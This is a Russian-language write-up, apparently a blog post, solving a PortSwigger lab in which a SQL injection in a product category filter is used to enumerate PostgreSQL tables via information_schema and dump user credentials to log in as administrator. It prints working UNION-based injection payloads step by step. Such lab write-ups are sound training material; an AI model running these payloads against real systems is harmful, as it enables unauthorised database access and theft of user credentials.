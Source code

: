 ```yaml
---
title: "SQL injection attack, listing the database contents on non-Oracle databases"
date: 2025-06-06
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-examining-the-database-in-sql-injection-attacks/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle"
classes: wide
---
```


В данной лабе есть уязвимый к `SQL injection` фильтр категории. Для решения нужно получить учетные данные администратора и залогиниться от его имени.

```
https://0a8a00d103c143f285ba801000a10039.web-security-academy.net/
```

## Solution

Такс, ну из условия известно, что уязвимость в фильтре категорий. Возьму `URL` с фильтром для `Gifts`:

```
https://0a8a00d103c143f285ba801000a10039.web-security-academy.net/filter?category=Gifts
```


Время подбирать обрамление. Из моего опыта с лабами предположу, что тут снова одинарная кавычка) Попробую следующий пейлоад:

```
Gifts' and false-- -
```

Если страница ломается или возвращает другую страницу — значит SQL-инъекция сработала. Все так:


![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_sqli/IMG_SQL_injection_attack_listing_the_database_contents_on_non-Oracle_databases/1.png){: height="200" .align-center}
  

Скорее всего 2 колонки в запросе. Поэтому попробую `ORDERY BY 3` и `ORDER BY 2`:

```
Gifts' and false ORDER BY 3-- -Error
Gifts' and false ORDER BY 2-- -Ok
```

<details>
<summary>Пояснение</summary> 
  
<strong>ORDER BY N</strong> в SQL-запросe: если <strong>N</strong> превышает реальное количество столбцов — БД вернёт ошибку, если <strong>N</strong> корректно — запрос выполнится без ошибок.

</details>


Теперь нужно получить информацию о БД. Для этого буду использовать `UNION` в пейлоаде:

```
Gifts' and false UNION SELECT 1, 2-- -Error
Gifts' and false UNION SELECT '1', '2'-- -
```

<details>
<summary>Пояснение</summary> 
  
<strong>UNION SELECT</strong> — это оператор в SQL, который объединяет результаты <strong>SELECT</strong>-запросов в один. Когда веб-приложение вставляет данные пользователя в **SQL-запрос** без фильтрации или экранирования, можно добавить
<strong>UNION SELECT</strong> к своему вводу, чтобы вытянуть данные из других таблиц, даже если они не должны быть показаны. В данном решении выбираются ранее обнаруженные колонки.

</details>


![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_sqli/IMG_SQL_injection_attack_listing_the_database_contents_on_non-Oracle_databases/2.png){: height="200" .align-center}


Теперь буду получать информацию о БД:

```
Gifts' and false UNION SELECT database(), version()-- -Error
Gifts' and false UNION SELECT '1', version()-- -
```

<details>
<summary>Пояснение</summary> 
  
Это важно, потому что системные таблицы отличаются в <strong>MySQL</strong>, <strong>PostgreSQL</strong> и <strong>Oracle</strong>.

</details>


![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_sqli/IMG_SQL_injection_attack_listing_the_database_contents_on_non-Oracle_databases/3.png){: height="200" .align-center}


У меня БД `PostgreSQL 12.20`.  


Теперь нужно вытащить доступные таблицы из системной таблицы `informaiton_schema`:

```
Gifts' and false UNION SELECT table_name, NULL FROM information_schema.tables-- -
```

<details>
<summary>Пояснение</summary> 
  
<strong>information_schema</strong> — служебные таблицы, содержащие метаинформацию (про таблицы, поля и т.д.).

</details>

Я получил список всех таблиц:


![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_sqli/IMG_SQL_injection_attack_listing_the_database_contents_on_non-Oracle_databases/4.png){: height="200" .align-center}


С помощью поиска на странице я нашел таблицу `users_uajicb`. Попробую поработать с ней.


![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_sqli/IMG_SQL_injection_attack_listing_the_database_contents_on_non-Oracle_databases/5.png){: height="200" .align-center}


Вытащу доступные колонки из нее:

```
Gifts' and false UNION SELECT 'columns', column_name FROM information_schema.columns WHERE table_name = 'users_uajicb'-- -
```


![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_sqli/IMG_SQL_injection_attack_listing_the_database_contents_on_non-Oracle_databases/6.png){: height="200" .align-center}


Я узнал, что в таблице `users_uajicb` содержатся следующие колонки: `email`, `password_fiazmh`, `username_gwsbij`. Теперь выведу их содержимое с помощью следующего пейлоада:

```
Gifts' and false UNION SELECT username_gwsbij, concat(username_gwsbij, ':', password_fiazmh, ':', email) FROM users_uajicb-- -
```


![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_sqli/IMG_SQL_injection_attack_listing_the_database_contents_on_non-Oracle_databases/7.png){: height="200" .align-center}


Зайду в аккаунт администратора:


![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_sqli/IMG_SQL_injection_attack_listing_the_database_contents_on_non-Oracle_databases/8.png){: height="200" .align-center}


Пуф. Лаба пройдена:3 ☕ 
